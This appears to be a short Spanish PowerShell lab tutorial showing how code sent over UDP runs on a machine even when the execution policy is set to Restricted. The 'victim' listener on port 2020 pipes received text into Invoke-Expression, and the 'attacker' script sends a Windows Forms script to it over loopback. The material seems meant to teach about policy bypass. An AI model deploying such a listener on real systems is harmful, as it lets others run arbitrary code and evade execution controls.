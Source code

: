 ## TRANSMITIR FORMULARIO CON POLITICA DE SEGURIDAD RESTRICTED

Usaremos el modelo [cliente servidor](https://www.jesusninoc.com/12/29/server-and-client/)


 ACTIVAMOS LAS POLÍTICAS DE SEGURIDAD
 
```POWERSHELL
set-executionpolicy restricted 
```
Y CREAMOS EL FORMULARIO EN UN ARCHIVO .PS1 (TODO EN UNA LINEA Y SEPARAMOS LAS LINEAS CON ";")

```POWERSHELL
using assembly System.Windows.Forms;using namespace System.Windows.Forms;$form = [Form] @{Text = 'Queipo'};$button = [Button] @{Text = 'Pulsa que yo te aviso'; Dock = 'Fill'};$form.Controls.Add($button);$form.ShowDialog()
```
---------------------

EJECUTAR PRIMERO VÍCTIMA Y DESPUES ATACANTE

### VICTIMA

```POWERSHELL
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient $port
$content=$udpclient.Receive([ref]$endpoint)
$reci= [Text.Encoding]::ASCII.GetString($content)
$udpclient.Dispose()
$reci | iex
```

### ATACANTE

```POWERSHELL
$txt= get-content formulario.ps1
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Loopback,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient
$b=[Text.Encoding]::ASCII.GetBytes($txt)
$bytesSent=$udpclient.Send($b,$b.length,$endpoint)
$udpclient.Close()
```

